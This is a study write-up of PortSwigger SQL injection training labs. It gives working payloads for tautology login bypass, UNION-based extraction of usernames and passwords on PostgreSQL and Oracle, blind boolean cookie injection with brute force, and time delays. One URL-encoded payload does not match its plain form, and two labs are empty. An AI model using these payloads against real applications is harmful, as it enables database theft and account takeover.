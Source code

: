 # SQL Injection

 - [Retrieving hidden data](#retrieving-hidden-data)
 - [UNION attacks](#union-attacks)
 - [Blind SQL injection](#blind-sql-injection)

Details at [here](https://portswigger.net/web-security/sql-injection)

Type of SQL injection in example

- [Retrieving hidden data](#retrieving-hidden-data)
- [UNION attacks](#union-attacks)
- [Blind SQL injection](#blind-sql-injection)

Type of SQL injection attack:
 - In-band SQLi (data is returned to the attacker in the same HTTP response as the SQL query)
  - Error-based SQLi: error messages returned by the web application contain sensitive data
  - Union-based SQLi: using union query to retrieve data from other tables
 - Inferential (Blind) SQLi (data is not returned to the attacker in the same HTTP response as the SQL query)
  - Boolean-based SQLi: using boolean logic to infer the results of SQL queries
  - Time-based SQLi: using time delays to infer the results of SQL queries
 - Out-of-band SQLi (DNS or HTTP requests to transfer data to an attacker-controlled server)

---

## Retrieving hidden data

Modify an SQL query to return additional results

[Lab 1](https://portswigger.net/web-security/sql-injection/lab-retrieve-hidden-data)

Description of this lab: the query of 1 category `Gifts`

`SELECT * FROM products WHERE category = 'Gifts' AND released = 1`

And sample URL query: `https://example.com/filter?category=Gifts`

Goal: display details of all products in any category, both *released and unreleased*

`SELECT * FROM products WHERE category = '' or '1'='1' AND released = 1`

We just only adjust in `category=` and put into `''`, so the final payload:
`' or '1'='1` or `https://example.com/filter?category=%27%20or%20%271%27or%271` 

[Lab 2](https://portswigger.net/web-security/sql-injection/lab-login-bypass)

Description of this lab: inject in login page as username: administrator

So we need to modify the password, and check the password with the previous payload: `' or '1'='1`, and it worked

## UNION attacks

Detail found at [here](https://portswigger.net/web-security/sql-injection/union-attacks)

See cheat sheet [here](https://portswigger.net/web-security/sql-injection/cheat-sheet)

[Lab 3](https://portswigger.net/web-security/sql-injection/union-attacks/lab-determine-number-of-columns)

Description of this lab: vulnerability in the product category filter, use a UNION attack to retrieve data from other tables

Firstly, we need to identify the number of columns in the table, and use payload: `' ORDER BY <number-of-column> --` to check, after we use `' ORDER BY 4 --`, we got the error `Internal Server Error` so the column is 3.

Finally, we use `' UNION SELECT NULL, NULL, NULL--` to make a union attack at `/filter?category=` then solved this challenge.

[Lab 4](https://portswigger.net/web-security/sql-injection/union-attacks/lab-find-column-containing-text)

Description of this lab: You can do this using a technique you learned in a previous lab. The next step is to identify a column that is compatible with string data. After that, alter NULL to random text on the homepage, for example: 'qG26iL'

Do as same as the previous one with `' UNION SELECT NULL, NULL, NULL--`. After trying, the final payload is `' UNION SELECT NULL, 'qG26iL', NULL--`

[Lab 5](https://portswigger.net/web-security/sql-injection/union-attacks/lab-retrieve-data-from-other-tables)

Description of this lab: The database contains a different table called users, with columns called username and password

In this lab, there are 2 columns in this table

Do the same as the previous one with `' UNION SELECT NULL, NULL--`. Follow the description, and change NULL to username and password. Moreover, we need access to a table named `users`, so the payload is: `' UNION SELECT username, password FROM users--`, then we got all username and password.

Login with the password of user `administrator`: nq3glruptcrilo0yscf6 and solved the lab.  

[Lab 6](https://portswigger.net/web-security/sql-injection/union-attacks/lab-retrieve-multiple-values-in-single-column)

This lab has the same description as the previous one, but we need to retrieve multiple values in a single column. Furthermore, in this lab, we can use only the second column.

Look at the cheat sheet, we can use the string concatenation technique. After trying, we found this lab use `||` for concatenate string. The final payload is `' UNION SELECT NULL, username||':'||password FROM users--` to get all usernames and passwords.

Login with the password of user `administrator`: 532codf0er823llefy7x and solved the lab. 

[Lab 7](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-querying-database-version-oracle)

Description of this lab: display the database version string of Oracle

In this lab, the available number of columns is 2. Look at the cheat sheet, try with: `SELECT banner FROM v$version` and the final payload is: `' UNION SELECT banner, NULL FROM v$version--`, then solved the lab.

[Lab 8](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-querying-database-version-mysql-microsoft)

This lab has the same description as the previous one, but for MySQL and Microsoft.

The final payload is `' UNION SELECT @@version, NULL#`, we will change `v$version` to `@@version`, `--` to `#`, then solved the lab.


[Lab 9](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-non-oracle)

Description of this lab: You need to determine the name of this table and the columns it contains, then retrieve the contents of the table to obtain the username and password of all users.

This lab has 2 available columns, we need to determine the name of table first. However, determine the version of database. After trying, `' UNION SELECT version(), NULL--` worked and result is `PostgreSQL 12.12 (Ubuntu 12.12-0ubuntu0.20.04.1) on x86_64-pc-linux-gnu, compiled by gcc (Ubuntu 9.4.0-1ubuntu1~20.04.1) 9.4.0, 64-bit`

Check the cheat sheet, found database contents with PostgreSQL using `' UNION SELECT table_name, NULL FROM information_schema.tables--`. So there are a lot of tables, find the column of table `' UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name = 'users_ahngdj'--`, the result is columns names: username_ivoiag and password_vxgmam

The final payload is `' UNION SELECT username_ivoiag, password_vxgmam FROM users_ahngdj--`, the password of administrator is l9jw2he0g1jr5zzndr3o. Login with this password, then solved the lab.

[Lab 10](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-oracle)

This lab has the same description as the previous one, but for oracle.

Get all table name in database with `' UNION SELECT table_name, NULL FROM all_tables--`, and the name of table which we need to access is USERS_NOFLTA then use `' UNION SELECT column_name,NULL FROM all_tab_columns WHERE table_name='USERS_NOFLTA'--` to get name of password and username column: PASSWORD_EVVZCC & USERNAME_ETTQUM.

The final payload is: `' UNION SELECT USERNAME_ETTQUM, PASSWORD_EVVZCC FROM USERS_NOFLTA--` and get password of administrator is qhwrw9aos6k2p2uodezp, login and solved the lab.

## Blind SQL injection 

[Lab 11](https://portswigger.net/web-security/sql-injection/blind/lab-conditional-responses)

Description of this lab: The results of the SQL query are not returned, and no error messages are displayed. But the application includes a **Welcome back** message in the page if the query returns any rows. The application uses a tracking **cookie** for analytics, and performs an SQL query containing the value of the submitted cookie.   

The database contains a different table called **users**, with columns called **username and password**, find out the password of the administrator user.

So we need to modify cookie, when we use burp suite, and open page, we will get cookie like this: `Cookie: TrackingId=78FpD4ERhK86IMIp; session=cjruWYG4ZqnnopctvKK3e3DJS2nN8eM2`. 

If we modify session, the website will be loss data of this session, so we will modify TrackingID `Cookie: TrackingId=78FpD4ERhK86IMIp+'+or+1=1--; session=cjruWYG4ZqnnopctvKK3e3DJS2nN8eM2`, and return page including 'Welcome back', so it is right direction. Only thing we can do is making condition. At the first, determine the length of password `Cookie: TrackingId=78FpD4ERhK86IMIp+'or+(SELECT+LENGTH(password)+FROM+users+WHERE+username='administrator')=20--; session=cjruWYG4ZqnnopctvKK3e3DJS2nN8eM2`

Note: using burp intruder for brute force value in condition 

Next, using brute force to guess 20-length password character by character with turbo intruder  

Guess first character
`Cookie: TrackingId=78FpD4ERhK86IMIp+'or+(SELECT+SUBSTRING(password,1,1)+FROM+users+WHERE+username='administrator')='%s'--; session=cjruWYG4ZqnnopctvKK3e3DJS2nN8eM2`

Using this [script](/Scripts/brutecondition.py) to guess, then write answer for per attack. After 20 trial, we will get password is `s4ykqo9mvgpqisgnzv9t`. Log in with this password and solved the lab.

[Lab 12](https://portswigger.net/web-security/sql-injection/blind/lab-conditional-errors)



[Lab 13](https://portswigger.net/web-security/sql-injection/blind/lab-time-delays)

Description of this lab: exploit the SQL injection vulnerability to cause a 10 seconds delay.

Using payload similar `Cookie: TrackingId=nTjOlcnGoesLH7fd+'or+pg_sleep(10)--; session=8BYemkFDFxWMOkX21X7uPWmJ0P1fAYRl` to sleep in 10 second, then solved the lab.

[Lab 14](https://portswigger.net/web-security/sql-injection/blind/lab-time-delays-info-retrieval)







